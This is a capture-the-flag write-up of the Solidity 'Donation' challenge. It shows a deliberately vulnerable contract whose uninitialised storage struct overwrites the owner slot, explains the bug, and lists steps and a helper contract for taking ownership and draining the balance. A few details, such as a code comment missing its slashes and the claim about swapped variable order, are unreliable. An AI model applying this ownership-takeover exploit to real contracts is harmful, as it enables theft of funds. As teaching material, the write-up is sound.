


# Donation

## topic

```solidity
pragma solidity ^0.4.21;

contract DonationChallenge {
    struct Donation {
        uint256 timestamp;
        uint256 etherAmount;
    }
    Donation[] public donations;

    address public owner;

    function DonationChallenge() public payable {
        require(msg.value == 1 ether);
        
        owner = msg.sender;
    }
    
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function donate(uint256 etherAmount) public payable {
        // amount is in ether, but msg.value is in wei
        uint256 scale = 10**18 * 1 ether;
        require(msg.value == etherAmount / scale);

        Donation donation;
        donation.timestamp = now;
        donation.etherAmount = etherAmount;

        donations.push(donation);
    }

    function withdraw() public {
        require(msg.sender == owner);
        
        msg.sender.transfer(address(this).balance);
    }
}
```

## analyses

In this challenge we have to withdraw all the Ether from the contract. The only place where it is possible is:

```solidity
function withdraw() public {
  require(msg.sender == owner);
  msg.sender.transfer(address(this).balance);
}
```

But it requires to be the `owner`. So, we'll have to find a way to become the new owner.

There's some funny business going on. The `donation` variable has no location defined (memory/storage):

```solidity
Donation donation;
```

In this case, it assumes `storage` by default, leading to an unexpected behavior. It acts as a pointer to the storage, and it will write to the first slots when changing its attributes:

```solidity
struct Donation {
  uint256 timestamp;
  uint256 etherAmount;
}

Donation[] public donations;
address public owner;
```

But this syntax is not allowed in new compiler

```solidity
    function donate(uint256 etherAmount) public payable {
        amount is in ether, but msg.value is in wei
        uint256 scale = 10**18 * 1 ether;
        require(msg.value == etherAmount / scale);

        Donation donation;//But this syntax is not allowed in new compiler
        donation.timestamp = now;
        donation.etherAmount = etherAmount;

        donations.push(donation);
    }
```

Setting the `timestamp` will write to the `slot 0` => the array length, and setting `etherAmount` will write to the `slot 1` => the `owner`.

So, to set the `owner` we just have to set `etherAmount` to our address.

The only reamaining challenge is passing the `require(msg.value == etherAmount / scale);`We convert our a decimal number and divide by the `scale` (10^18 * 1 ether). 

if we call donate() twice, it will cover slot0 and slot1 again: first call=>a, second call=>b



if this state variable swaps the position ,the result is the same as before. `Donation donation` always points to slot 0 and slot 1.

```solidity
    Donation[] public donations;
    address public owner;
    //if this state valiable changes the position ,the result is the same as before
    address public owner;
    Donation[] public donations;
```

## solution 

1.get `donate(uint256)` 's parameter

```solidity
pragma solidity ^0.8.7;

contract tool{
    function calculateValue(uint256 _address) view public returns(uint256){
        //account from Remix: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
        return (uint256(uint160(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4))) / 10**36;//520786028573
    }//return 520786028573
}
```

2.call donate(uint256) with msg.value =520786028573 Wei and etherAmount = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4

3.call `withdraw()`

4.isComplete() returns true.




